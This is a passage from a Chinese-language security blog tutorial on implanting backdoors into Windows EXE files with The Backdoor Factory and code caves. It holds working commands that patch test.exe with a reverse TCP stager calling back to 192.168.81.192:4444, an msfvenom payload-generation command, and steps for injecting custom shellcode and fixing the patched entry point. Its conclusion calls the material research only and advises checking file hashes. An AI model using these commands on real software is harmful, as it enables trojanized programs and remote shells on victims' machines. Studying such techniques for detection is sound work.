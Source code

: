 ![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-10-20/1-2.png)

程序入口点添加跳转代码`JMP TEST2.00407055`，`0x00407055`保存添加的payload

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-10-20/1-3.png)

#### (3) payload保存到其他段中

```
./backdoor.py -f test.exe -H 192.168.81.192 -P 4444 -s reverse_tcp_stager_threaded -o test3.exe
```

根据提示选择PE header，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-10-20/1-4.png)

执行会报错，需要对其进行修复

可使用工具`nasm_shell`将汇编代码转换为十六进制数据

Kali2.0默认集成nasm_shell

工具使用如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-10-20/1-5.png)

#### (4) 自定义payload

生成payload：

```
msfvenom -p windows/messagebox -f raw >msg.bin
```

添加payload：

```
./backdoor.py -f test.exe -s user_supplied_shellcode_threaded -U msg.bin -o test4.exe
```

测试如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-10-20/1-6.png)


## 0x05 小结
---

本文介绍了使用`The Backdoor Factory`向EXE文件植入后门的方法，利用Code Caves能够不改变原文件的大小。

当然，该利用方法已经被杀毒软件查杀，本文介绍的内容仅作技术研究。

站在防御的角度，下载文件时需要多加注意，只从可信源下载程序，同时校验文件hash。

---


[LEAVE A REPLY](https://github.com/3gstudent/feedback/issues/new)


















